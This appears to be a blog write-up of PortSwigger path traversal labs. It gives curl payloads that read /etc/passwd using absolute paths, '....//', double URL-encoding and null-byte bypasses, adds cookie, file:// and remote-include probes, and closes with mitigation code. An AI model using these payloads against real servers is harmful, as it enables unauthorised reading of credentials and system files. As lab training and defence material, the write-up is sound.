 ```yaml
---
layout: post
title: "Directory Path Traversal"
date: 2025-06-27 00:00:00 +0100
categories: [portswigger, hacking]
tags: [labs, theory, directory traversal, path traversal, web]
---
```


![picname](pics/path_trav.png)

### Intro
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Even more info/payloads could be found here -> https://swisskyrepo.github.io/PayloadsAllTheThings/Directory%20Traversal/

### Path traversal labs (Apprentice)

#### Lab: File path traversal, simple case
- Just find any image and take a look on a path

```html
curl https://0a06005d03c537ec83b6059800a500ec.web-security-academy.net/image?filename=../../../etc/passwd
```

### Path traversal labs (Practioner)

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass
- Let's just give a try for an absolute path bypass

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=/etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped non-recursively
- Next option after an absolute path - add more dots and slashes (such as `....//` or `....\/`):

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
- Let's try `%2e%2e%2f` and `%252e%252e%252f` or some non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f` also could work:

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

#### Lab: File path traversal, validation of start of path
- An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`:

From this: `https://<YOUR-LAB>.web-security-academy.net/image?filename=/var/www/images/36.jpg` ->

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=/var/www/images/../../../../etc/passwd
```

#### File path traversal, validation of file extension with null byte bypass
- It could be possible to use a null byte to effectively terminate the file path before the required extension:

From `https://<YOUR-LAB>.web-security-academy.net/image?filename=70.jpg` ->

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```

### Even more examples to test
- In the Cookies: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`
- If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way: `http://example.com/index.php?file=file:///etc/passwd`
- It’s also possible to include files and scripts located on external website: `http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

### Mitigation Techniques
- *Never trust user input* - always treat file names or paths from user input as untrusted.
- *Use whitelisting* - instead of letting users specify arbitrary paths, use predefined identifiers or filenames:

```python
allowed_files = {
    "profile_pic": "/app/user_images/profile.png",
    "report": "/app/reports/user_report.pdf"
}

filename = request.GET.get("file")
if filename in allowed_files:
    return send_file(allowed_files[filename])
else:
    abort(403)
```

- *Normalize and validate paths* - use language-specific utilities to normalize paths and ensure they stay within a safe base directory.

```python
import os

BASE_DIR = "/app/uploads"
user_input = request.GET.get("file")
safe_path = os.path.abspath(os.path.join(BASE_DIR, user_input))

if not safe_path.startswith(BASE_DIR):
    abort(403)

with open(safe_path) as f:
    return f.read()
```

- *Deny path traversal characters* - reject inputs containing `../`, `..\\`, or absolute paths (/etc/, C:\).

```js
if (/(\.\.\/)|(\.\.\\)|(^\/)|(^[a-zA-Z]:\\)/.test(userInput)) {
  throw new Error("Invalid file path");
}
```

- *Use secure APIs or file resolvers* - frameworks like Django, Flask, or Express often have utilities that abstract file handling. Use them when possible.
- *Run with least privileges* - ensure the server or app only has access to necessary directories/files and not full system access.
- *Log and monitor access attempts* - detect and block brute-force or exploratory attempts like repeated `../../` in requests.